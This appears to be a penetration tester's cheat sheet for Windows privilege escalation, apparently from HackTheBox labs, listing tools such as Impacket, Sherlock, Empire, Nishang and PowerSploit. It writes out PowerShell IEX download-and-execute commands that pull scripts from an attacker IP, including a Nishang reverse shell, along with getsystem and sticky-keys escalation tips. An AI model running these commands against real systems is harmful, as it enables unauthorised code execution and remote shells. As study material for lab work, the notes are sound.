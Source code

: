 - In a privilege escalation situation, we are usually trying to move from Medium to High.
- It is trivial to move from High to System.
	- meterpreter: getsystem
	- sticky keys exploit

**Remember: UAC is an annoyance, but NEVER a security boundary!**

## Common Tools

- eternal blue scanner
	- https://github.com/peterpt/eternal_scanner

- impacket
	- https://github.com/CoreSecurity/impacket
	- contains tools such as psexec
	- check out example programs that use Impacket
		- https://github.com/CoreSecurity/impacket/tree/master/examples
	- smbserver
		- host a local smb server that you can use to push/pull files to/from the target system
		- e.g. `sudo smbserver.py sharename /var/www`

- Sherlock
	- https://github.com/rasta-mouse/Sherlock
	- Checks for windows priv esc vulns
	- download: `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Sherlock.ps1')`
	- execute: `Find-AllVulns`

- Empire
	- https://github.com/EmpireProject/Empire
	- Empire is a PowerShell and Python post-exploitation agent.
	- exploits: https://github.com/EmpireProject/Empire/tree/master/data/module_source/privesc

- Windows-Exploit-Suggester
	- https://github.com/GDSSecurity/Windows-Exploit-Suggester
	- great for older, non-powershell, systems (xp/2003) where you can't use Sherlock
	- all you have to do is run `systeminfo` on the target machine and copy the output
	- e.g. `./windows-exploit-suggester.py -i ~/ctf/hackthebox/arctic/systeminfo.txt -d 2018-08-04-mssb.xls`

- Nishang
	- https://github.com/samratashok/nishang
	- Windows Rev Shells and other stuff
	- cmd: `c:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')`

- PowerSploit
	- https://github.com/PowerShellMafia/PowerSploit
	- PowerUp.ps1
		- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
		- Privesc Tool
		- IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/PowerUp.ps1')
		- run all checks: `Invoke-AllChecks`

- PowerView (Subset of PowerSploit)
	- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
	- Useful Functions:
		- `Get-NetUser`
		- `Get-NetGroup`
		- `Get-NetComputer`
	- All Functions: https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
